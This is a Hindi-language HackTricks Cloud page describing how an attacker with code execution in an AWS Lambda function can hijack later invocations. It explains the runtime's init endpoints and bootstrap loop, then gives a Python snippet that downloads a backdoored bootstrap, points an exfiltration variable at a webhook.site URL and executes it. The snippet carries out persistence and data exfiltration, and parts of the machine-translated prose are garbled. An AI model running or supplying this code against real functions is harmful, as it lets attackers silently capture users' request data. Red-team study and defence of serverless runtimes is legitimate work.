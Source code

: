 # AWS - Lambda अनुरोध चुराना

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>के साथ शून्य से हीरो तक AWS हैकिंग सीखें</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** (https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>

## Lambda फ्लो

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** एक प्रक्रिया है जो कंटेनर के बाहर है जो **init** प्रक्रिया को **आमंत्रण** भेजती है।
2. इनिट प्रक्रिया पोर्ट **9001** पर सुन रही है और कुछ दिलचस्प एंडपॉइंट्स उजागर कर रही है:
* **`/2018-06-01/runtime/invocation/next`** – अगले आमंत्रण घटना प्राप्त करें
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – आमंत्रण के लिए हैंडलर प्रतिक्रिया वापस करें
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – एक क्रियान्वयन त्रुटि वापस करें
3. **bootstrap.py** एक लूप है जो इनिट प्रक्रिया से आमंत्रण प्राप्त करता है और उन्हें हैंडल करने के लिए उपयोगकर्ताओं कोड को बुलाता है (**`/next`**)।
4. अंततः, **bootstrap.py** इनिट को **प्रतिक्रिया** भेजता है।

ध्यान दें कि bootstrap उपयोगकर्ता कोड को एक मॉड्यूल के रूप में लोड करता है, इसलिए उपयोगकर्ता कोड द्वारा किया गया कोई भी कोड निष्पादन वास्तव में इस प्रक्रिया में हो रहा है।

## Lambda अनुरोध चुराना

इस हमले का उद्देश्य यह है कि उपयोगकर्ता कोड को एक दुरुपयोगी **`bootstrap.py`** प्रक्रिया को चलाने के लिए उपयोगकर्ता कोड को दुरुपयोगी **`bootstrap.py`** प्रक्रिया के अंदर चलाएं जो विकल्पनीय अनुरोध को हैंडल करती है। इस तरह, **दुरुपयोगी bootstrap** प्रक्रिया शुरू हो जाएगी **init प्रक्रिया के साथ बातचीत करना** अनुरोधों को हैंडल करने के लिए जबकि **विधि** bootstrap दुरुपयोगी एक दौरान चल रही है, इसलिए यह इनिट प्रक्रिया से अनुरोध नहीं करेगी।

यह एक सरल कार्य है जैसे ही उपयोगकर्ता का कोड वास्तविक **`bootstrap.py`** प्रक्रिया द्वारा निष्पादित हो रहा है। इसलिए हमलावर:

* **वर्तमान आमंत्रण के नकली परिणाम को इनिट प्रक्रिया को भेजें**, ताकि इनिट सोचे कि bootstrap प्रक्रिया और आमंत्रण के लिए प्रतीक्षा कर रही है।
* एक अनुरोध भेजना चाहिए **`/${invoke-id}/response`**।
* इन्वोक-आईडी को वास्तविक **`bootstrap.py`** प्रक्रिया के स्टैक से प्राप्त किया जा सकता है [**inspect**](https://docs.python.org/3/library/inspect.html) python मॉड्यूल का उपयोग करके (जैसा [यहाँ प्रस्तावित किया गया है](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) या फिर इसे फिर से अनुरोध करके प्राप्त किया जा सकता है **`/2018-06-01/runtime/invocation/next`** (जैसा [यहाँ प्रस्तावित किया गया है](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py))।
* एक दुरुपयोगी **`boostrap.py`** निष्पादित करें जो अगले आमंत्रणों को हैंडल करेगी
* छलापन के उद्देश्यों के लिए लैंबडा आमंत्रण पैरामीटर्स को हमलावर कंट्रोल C2 को भेजना और फिर सामान्य रूप से अनुरोधों को हैंडल करना संभव है।
* इस हमले के लिए, यह काफी है कि **`bootstrap.py`** का मूल कोड प्राप्त किया जाए सिस्टम से या [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) से, दुरुपयोगी कोड जोड़ें और वर्तमान लैम्बडा आमंत्रण से इसे चलाएं।

### हमले के कदम

1. एक **RCE** भेदनयोग्यता खोजें।
2. एक **दुरुपयोगी** **bootstrap** उत्पन्न करें (उदा। [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **दुरुपयोगी** bootstrap को निष्पादित करें।

आप आसानी से इन क्रियाओं को निष्पादित कर सकते हैं:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
## संदर्भ

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
